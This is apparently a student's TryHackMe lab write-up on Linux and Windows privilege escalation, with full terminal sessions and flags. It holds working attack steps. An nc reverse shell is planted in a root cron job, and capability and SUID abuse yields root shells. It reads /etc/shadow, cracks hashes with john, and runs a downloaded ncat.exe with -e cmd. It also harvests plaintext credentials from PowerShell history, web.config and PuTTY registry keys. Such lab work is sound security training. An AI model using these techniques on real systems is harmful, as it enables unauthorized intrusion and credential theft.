gerryconway@ip-10-10-145-190:/$ base64 "$LFILE" | base64 --decode
THM-3847834
```

### PRIVILEGE ESCALATION: Capabilities

me=10.10.38.133  
target=10.10.149.140  

```
karen@ip-10-10-149-140:~$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/home/karen/vim = cap_setuid+ep
/home/ubuntu/view = cap_setuid+ep
karen@ip-10-10-149-140:~$

# Checking owners and group
karen@ip-10-10-149-140:~$ ls -la /home/ubuntu/view
-rwxr-xr-x 1 root root 2906824 Jun 18  2021 /home/ubuntu/view
karen@ip-10-10-149-140:~$ ls -la /home/karen/vim
-rwxr-xr-x 1 root root 2906824 Jun 18  2021 /home/karen/vim

```

tried escalating via SUID not working,
checking how to escalte via VIM Capabilities
`https://gtfobins.github.io/gtfobins/vim/#capabilities`

```
cp $(which vim) .
sudo setcap cap_setuid+ep vim

./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

```

now testing it to karen user
```
/home/karen/vim ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
# id
uid=0(root) gid=1001(karen) groups=1001(karen)
# bash
root@ip-10-10-149-140:~# id
uid=0(root) gid=1001(karen) groups=1001(karen)
root@ip-10-10-149-140:~# whoami
root
root@ip-10-10-149-140:~# find / -name flag4.txt 2>/dev/null
/home/ubuntu/flag4.txt
root@ip-10-10-149-140:~# cat /home/ubuntu/flag4.txt
THM-9349843
```

Another way to escalate is by using view
```
https://gtfobins.github.io/gtfobins/view/#capabilities 
./view -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
# tested and worked 
```

**SUMMARY**  
```
# GET CAPABILITIES
getcap -r / 2>/dev/null
# check https://gtfobins.github.io/gtfobins
# used vim 
/home/karen/vim ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
# used view
/home/ubuntu/view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
# both got to root
```


### PRIVILEGE ESCALATION: Cronn Job

me=10.10.39.133
target=10.10.56.58

```
karen@ip-10-10-56-58:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *  root /antivirus.sh
* * * * *  root antivirus.sh
* * * * *  root /home/karen/backup.sh
* * * * *  root /tmp/test.py

# now ill use the backup.sh

chmod +x /home/karen/backup.sh
karen@ip-10-10-56-58:~$ cat backup.sh
#!/bin/bash

mkfifo /tmp/f; nc 10.10.39.133 4444 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
# NOTEI already setted up the Listener before hand made sure to have exec permission

```


My listener
```
┌──(root㉿kali)-[~/repo]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.39.133] from (UNKNOWN) [10.10.56.58] 33842
id
uid=0(root) gid=0(root) groups=0(root)
cat /home/ubuntu/flag5.txt
THM-383000283

cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
karen:x:1001:1001::/home/karen:/bin/sh
matt:x:1002:1002::/home/matt:/bin/sh

cat /etc/shadow
root:*:18561:0:99999:7:::
daemon:*:18561:0:99999:7:::
...
karen:$6$ZC4srkt5HufYpAAb$GVDM6arO/qQU.o0kLOZfMLAFGNHXULH5bLlidB455aZkKrMvdB1upyMZZzqdZuzlJTuTHTlsKzQAbSZJr9iE21:18798:0:99999:7:::
matt:$6$WHmIjebL7MA7KN9A$C4UBJB4WVI37r.Ct3Hbhd3YOcua3AUowO2w2RUNauW8IigHAyVlHzhLrIUxVSGa.twjHc71MoBJfjCTxrkiLR.:18798:0:99999:7:::
```


Back to kali, create the unshadow file first then crack the passwords usiung john the ripper 
```
┌──(root㉿kali)-[~/repo]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt unshadow.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
123456           (matt)
Password1        (karen)
```

**SUMMARY**  
```
#Check cronn job
cat /etc/crontab
# edit backup script, create rev shell from nc 

karen@ip-10-10-56-58:~$ cat backup.sh
#!/bin/bash

mkfifo /tmp/f; nc 10.10.39.133 4444 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

# from the listener
nc -lvnp 4444
# once root pops
cat /etc/passwd /etc/shadow

unshadow passwd shadow > unshadow.txt
john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt unshadow.txt
```


### LINUX PRIVILEGE ESCALATION: PATH 
me=10.10.4.105  
target=10.10.146.169  

```
karen@ip-10-10-146-169:/$ id
uid=1001(karen) gid=1001(karen) groups=1001(karen)
karen@ip-10-10-146-169:/$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
karen@ip-10-10-146-169:/$ find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
dev/char
run
sys
...
home/murdoch
tmp

# /home/murdoch and tmp are our target locations for escalating 

karen@ip-10-10-146-169:/$ cd /home/murdoch/
karen@ip-10-10-146-169:/home/murdoch$ ls -l
total 28
-rwsr-xr-x 1 root  root  16712 Jun 20  2021 test
-rw-rw-r-- 1 karen karen    10 Nov 30 08:59 thm
-rw-rw-r-- 1 root  root     86 Jun 20  2021 thm.py

# assume that thm.py is precompile of test bin which has root SUID
#  -rwsr-xr-x 
karen@ip-10-10-146-169:/home/murdoch$ cat thm.py
/usr/bin/python3

import os
import sys

try:
        os.system("thm")
        except:
                sys.exit()

# 
karen@ip-10-10-146-169:/home/murdoch$ export PATH=/tmp:$PATH
karen@ip-10-10-146-169:/home/murdoch$ echo "/bin/bash" > /tmp/thm
karen@ip-10-10-146-169:/home/murdoch$ chmod +x /tmp/thm

karen@ip-10-10-146-169:/home/murdoch$ id
uid=1001(karen) gid=1001(karen) groups=1001(karen)
# Here we try to execute
karen@ip-10-10-146-169:/home/murdoch$ ./test
root@ip-10-10-146-169:/home/murdoch# id
uid=0(root) gid=0(root) groups=0(root),1001(karen)
root@ip-10-10-146-169:/home/murdoch# cat /home/murdoch/flag^C
root@ip-10-10-146-169:/home/murdoch# find / -name flag6.txt 2>/dev/null
/home/matt/flag6.txt
# FLAG 
root@ip-10-10-146-169:/home/murdoch# cat /home/matt/flag6.txt
THM-736628929

```


### LINUX PRIVILEGE ESCALATION: NFS 
me=10.10.4.105
target=10.10.185.3
target=10.10.2.24

NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.

The critical element for this privilege escalation vector is the “no_root_squash” option you can see above. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.


```
karen@ip-10-10-185-3:/$ cat /etc/exports
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)

karen@ip-10-10-185-3:/$ ls -la /home
total 20
drwxr-xr-x  5 root   root   4096 Jun 20  2021 .
drwxr-xr-x 19 root   root   4096 Nov 30 09:45 ..
drw-r--r--  2 root   root   4096 Jun 20  2021 backup
drwxr-xr-x  2 root   root   4096 Jun 20  2021 matt
drwxr-xr-x  5 ubuntu ubuntu 4096 Jun 20  2021 ubuntu

```
Now back on the kali machine, we're gonna mount the shared folder 

```

┌──(root㉿kali)-[/mnt]
└─# mkdir exploit

┌──(root㉿kali)-[/mnt]
└─# mount -o rw 10.10.185.3:/home/ubuntu/sharedfolder /mnt/exploit

# Creating exploit
┌──(root㉿kali)-[/mnt/exploit]
└─# cat escalate.c
int main()
{
  setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}

┌──(root㉿kali)-[/mnt/exploit]
└─# gcc escalate.c -o escalate -w


┌──(root㉿kali)-[/mnt/exploit]
└─# chmod +xs escalate

┌──(root㉿kali)-[/mnt/exploit]
└─# ls -l escalate
-rwsr-sr-x 1 root root 16056 Nov 30 10:01 escalate

# ANOTHER ATTEMPT 
┌──(root㉿kali)-[/mnt/exploit]
└─# cat exploit.c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
int main(void){
  setuid(0);
  setgid(0);
  system("/bin/bash");
  return 0;
}

┌──(root㉿kali)-[/mnt/exploit]
└─# gcc exploit.c -o exploit

┌──(root㉿kali)-[/mnt/exploit]
└─# chmod +s exploit

┌──(root㉿kali)-[/mnt/exploit]
└─# ls -l exploit
-rwsr-sr-x 1 root root 16056 Nov 30 10:13 exploit

```

### Troubleshoot
./code: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by ./code)
> Kali Linux box was not working because the gcc compiler was too high, 
> I used the attack box  and it worked 


karen@ip-10-10-2-24:/home/ubuntu/sharedfolder$ ./code
./code: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by ./code)
> Return to this task Privilege Escalation via NFS 

**RETRY on ATTACKBOX**    
me=10.10.79.12
target=10.10.2.24


c privilege escalate suid
```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
int main(void){
  setuid(0);
  setgid(0);
  system("/bin/bash");
  return 0;
}

```


```
karen@ip-10-10-69-219:/home/ubuntu/sharedfolder$ ls -l
total 16
-rwsr-sr-x 1 root root 8392 Nov 30 11:03 code
-rw-r--r-- 1 root root  137 Nov 30 11:01 code.c
karen@ip-10-10-69-219:/home/ubuntu/sharedfolder$ ./code
root@ip-10-10-69-219:/home/ubuntu/sharedfolder# id
uid=0(root) gid=0(root) groups=0(root),1001(karen)
root@ip-10-10-69-219:/home/ubuntu/sharedfolder# find / -name flag7.txt 2> /dev/null
/home/matt/flag7.txt
root@ip-10-10-69-219:/home/ubuntu/sharedfolder# cat /home/matt/flag7.txt
THM-89384012

```


### CAPSTONE

me=10.10.165.119  
target=10.10.4.59  

leonard  
Penny123


```
[leonard@ip-10-10-4-59 ~]$ ls -la /home
total 4
drwxr-xr-x.  5 root    root      50 Jun  7  2021 .
dr-xr-xr-x. 18 root    root     235 Jun  7  2021 ..
drwx------.  7 leonard leonard  197 Jun  7  2021 leonard
drwx------. 16 missy   missy   4096 Jun  7  2021 missy
drwx------.  2 root    root      23 Jun  7  2021 rootflag

# tried crontab
[leonard@ip-10-10-4-59 ~]$ wget 10.10.165.119:9999/les.sh
--2022-11-30 15:05:29--  http://10.10.165.119:9999/les.sh
Connecting to 10.10.165.119:9999... connected.
HTTP request sent, awaiting response... 200 OK
Length: 90917 (89K) [text/x-sh]
Saving to: \u2018les.sh\u2019

100%[==============================>] 90,917      --.-K/s   in 0s

2022-11-30 15:05:29 (446 MB/s) - \u2018les.sh\u2019 saved [90917/90917]

[leonard@ip-10-10-4-59 ~]$ bash les.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable

// Compile with:
//   gcc -pthread dirty.c -o dirty -lcrypt
//
// Then run the newly create binary by either doing:
//   "./dirty" or "./dirty my-new-password"
//
// Afterwards, you can either "su firefart" or "ssh firefart@..."

```

dirty cow did not work, now trying the SUID approach
```
[leonard@ip-10-10-4-59 ~]$ find / -type f -perm -04000 -ls 2>/dev/null
16779966   40 -rwsr-xr-x   1 root     root        37360 Aug 20  2019 /usr/bin/base64
17298702   60 -rwsr-xr-x   1 root     root        61320 Sep 30  2020 /usr/bin/ksu
17261777   32 -rwsr-xr-x   1 root     root        32096 Oct 30  2018 /usr/bin/fusermount
17512336   28 -rwsr-xr-x   1 root     root        27856 Apr  1  2020 /usr/bin/passwd
17698538   80 -rwsr-xr-x   1 root     root        78408 Aug  9  2019 /usr/bin/gpasswd
17698537   76 -rwsr-xr-x   1 root     root        73888 Aug  9  2019 /usr/bin/chage
17812176   60 -rwsr-xr-x   1 root     root        57656 Aug  9  2019 /usr/bin/crontab
17787689   24 -rwsr-xr-x   1 root     root        23576 Apr  1  2020 /usr/bin/pkexec
18382172   52 -rwsr-xr-x   1 root     root        53048 Oct 30  2018 /usr/bin/at
20386935  144 ---s--x--x   1 root     root       147336 Sep 30  2020 /usr/bin/sudo


[leonard@ip-10-10-4-59 ~]$ LFILE=/etc/passwd
[leonard@ip-10-10-4-59 ~]$ base64 "$LFILE" | base64 --decode
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
...
leonard:x:1000:1000:leonard:/home/leonard:/bin/bash
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
missy:x:1001:1001::/home/missy:/bin/bash

[leonard@ip-10-10-4-59 ~]$ base64 "$LFILE" | base64 --decode
root:$6$DWBzMoiprTTJ4gbW$g0szmtfn3HYFQweUPpSUCgHXZLzVii5o6PM0Q2oMmaDD9oGUSxe1yvKbnYsaSYHrUEQXTjIwOW/yrzV5HtIL51::0:99999:7:::
bin:*:18353:0:99999:7:::
daemon:*:18353:0:99999:7:::
adm:*:18353:0:99999:7:::
lp:*:18353:0:99999:7:::
sync:*:18353:0:99999:7:::
oprofile:!!:18785::::::
tcpdump:!!:18785::::::
leonard:$6$JELumeiiJFPMFj3X$OXKY.N8LDHHTtF5Q/pTCsWbZtO6SfAzEQ6UkeFJy.Kx5C9rXFuPr.8n3v7TbZEttkGKCVj50KavJNAm7ZjRi4/::0:99999:7:::
mailnull:!!:18785::::::
smmsp:!!:18785::::::
nscd:!!:18785::::::
missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::


# NOW LETS CRACK THE PASSWORD
root@ip-10-10-165-119:~/repo# john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt crack.txt
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
  Cost 1 (iteration count) is 5000 for all loaded hashes
  Will run 2 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
  Password1        (missy)

```


Password Cracked now entering missy
```
[leonard@ip-10-10-4-59 ~]$ su missy
Password:
[missy@ip-10-10-4-59 leonard]$ sudo -l
Matching Defaults entries for missy on ip-10-10-4-59:
!visiblepw, always_set_home, match_group_by_gid,
always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY
HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User missy may run the following commands on ip-10-10-4-59:
(ALL) NOPASSWD: /usr/bin/find
[missy@ip-10-10-4-59 leonard]$ find /home -name "flag*" 2>/dev/null
/home/missy/Documents/flag1.txt

```

Find can be searched now
```
[leonard@ip-10-10-4-59 ~]$ LFILE=/home/missy/Documents/flag1.txt
[leonard@ip-10-10-4-59 ~]$ base64 "$LFILE" | base64 --decode
THM-42828719920544


[leonard@ip-10-10-4-59 ~]$ LFILE=/home/rootflag/flag2.txt
[leonard@ip-10-10-4-59 ~]$ base64 "$LFILE" | base64 --decode
THM-168824782390238
```


---

## WINDOWS PRIVILEGE ESCALATION 

Windows User
| Administrators |                             These users have the most privileges. They can change any system configuration parameter and access any file in the system.                             |
|:--------------:|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------:|
| Standard Users | These users can access the computer but only perform limited tasks. Typically these users can not make permanent or essential changes to the system and are limited to their files. |

Windows Non User Account 
| SYSTEM / LocalSystem | An account used by the operating system to perform internal tasks. It has full access to all files and resources available on the host with even higher privileges than administrators. |
|:--------------------:|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------:|
|     Local Service    |                               Default account used to run Windows services with "minimum" privileges. It will use anonymous connections over the network.                               |
|    Network Service   |                    Default account used to run Windows services with "minimum" privileges. It will use the computer credentials to authenticate through the network.                    |


## HARVESTING PASSWORDS FROM USUAL SPOTS 

me=10.10.135.71
target=10.10.154.247


``
root@ip-10-10-135-71:~/repo# xfreerdp /u:thm-unpriv /p:Password321 /cert:ignore /v:10.10.154.247
connected to 10.10.154.247:3389
``

Powershell History
> cmd : type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt  
> powershell: type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

```
PS C:\Windows\system32\sysprep> type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
ls
whoami
whoami /priv
whoami /group
whoami /groups
cmdkey /?
cmdkey /add:thmdc.local /user:julia.jones /pass:ZuperCkretPa5z
cmdkey /list
cmdkey /delete:thmdc.local
cmdkey /list
runas /?
clear
wgey
wget
wget 10.10.135.71:9999/ncat.exe
ls
ncat.exe 10.10.135.71 4444 -e cmd
ls
cd .\Documents\
ls
wget 10.10.135.71:9999/ncat.exe
wget 10.10.135.71:9999/ncat.exe -o nc.exe
ls
nc 10.10.135.71 4444 -e cmd
.\nc.exe 10.10.135.71 4444 -e cmd


PS C:\Windows\system32\sysprep> cmdkey /list
cmdkey /list

Currently stored credentials:

Target: Domain:interactive=WPRIVESC1\mike.katz
Type: Domain Password
User: WPRIVESC1\mike.katz


# In this scenario I have to get back to the windows machine
# I saw that it spawned a shell from mike.katz
# type c:\Users\Desktop\flag.txt
THM{WHAT_IS_MY_PASSWORD}

```

IIS Configuration
Look at these ` type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString `


``
PS C:\Windows\system32\sysprep> type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
<add connectionStringName="LocalSqlServer" maxEventDetailsLength="1073741823" buffer="false" bufferMode="Notification" name="SqlWebEventProvider" type="System.Web.Management.SqlWebEventProvider,System.Web,Version=4.0.0.0,Culture=neutral,PublicKeyToken=b03f5f7f11d50a3a" />
<add connectionStringName="LocalSqlServer" name="AspNetSqlPersonalizationProvider" type="System.Web.UI.WebControls.WebParts.SqlPersonalizationProvider, System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a" />
<connectionStrings>
<add connectionString="Server=thm-db.local;Database=thm-sekure;User ID=db_admin;Password=098n0x35skjD3" name="THM-DB" />
</connectionStrings>

``

**RETRIEVE CREDENTIALS FROM Software: Putty**
``

PS C:\Windows\system32\sysprep> reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\My%20ssh%20server
    ProxyExcludeList    REG_SZ
    ProxyDNS    REG_DWORD    0x1
    ProxyLocalhost    REG_DWORD    0x0
    ProxyMethod    REG_DWORD    0x0
    ProxyHost    REG_SZ    proxy
    ProxyPort    REG_DWORD    0x50
    ProxyUsername    REG_SZ    thom.smith
    ProxyPassword    REG_SZ    CoolPass2021
    ProxyTelnetCommand    REG_SZ    connect %host %port\n
    ProxyLogToTerm    REG_DWORD    0x1

End of search: 10 match(es) found.

```


---

## SUMMARY 

Linux Privilege Escalation:
- Enumeration
> find, linpeas.sh, les.sh
- Sudo 
> sudo -l, gtfobins.github.io
- SUID 
> 

- CAPABILITIES 
> getcap -r 2>/dev/null 
 

### PLAYBOOK 1


```bash
mkdir -p /tmp/hvck
cd /tmp/hvck

# Linux Smart Enumeration 
wget "https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh" -O lse.sh;chmod 700 lse.sh 
echo "[+] Enumerating"
bash lse.sh


# LINUX EXPLOIT SUGGESTER 
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
echo "[+] Checking for Common Exploits" 
bash les.sh > exploits.txt 
cat exploits.txt | grep "high" -B3 -A3

# Check SUID 
echo "[+] Checking for SUID"
find / type f -perm -0400 -ls 2>/dev/null | grep rwsr
echo "[+] Check here: https://gtfobins.github.io/"

# Check Capabilities 
echo "[+] Checking for Root Capabilities"
getcap -r / 2>/dev/null 


```
